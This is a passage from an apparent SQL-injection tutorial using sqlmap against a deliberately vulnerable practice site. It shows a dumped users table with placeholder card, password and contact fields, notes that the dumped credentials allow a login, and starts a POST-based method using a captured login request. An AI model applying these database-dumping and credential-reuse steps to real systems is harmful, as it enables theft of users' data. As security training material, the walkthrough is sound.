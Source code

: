    ```shell
   Table: users
   [1 entry]
   +---------------------+----------------------------------+------------+------+-----------------+---------+-------+-----------+
   | cc                  | cart                             | name       | pass | email           | phone   | uname | address   |
   +---------------------+----------------------------------+------------+------+-----------------+---------+-------+-----------+
   | 1234-5678-2300-9000 | 3cc3ee99b47d7b86b90426a8e9c3dcb8 | John Smith | test | email@email.com | 2323345 | test  | 21 street |
   +---------------------+----------------------------------+------------+------+-----------------+---------+-------+-----------+

   [05:34:38] [INFO] table 'acuart.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com/dump/acuart/users.csv'
   [05:34:38] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   [*] ending @ 05:34:38 /2023-04-20/

   ```

   We get an entry that has uname is 'test' and pass is 'test'. Try using it, we'll login successfully.

### Post based Method

We'll using [http://testasp.vulnweb.com/Login.asp](http://testasp.vulnweb.com/Login.asp){:target="\_blank"} as demo. (This site is free to attack so you can try it)

Browse to the target site.

1. Copy HTTP Request using Brute Suite and save a file.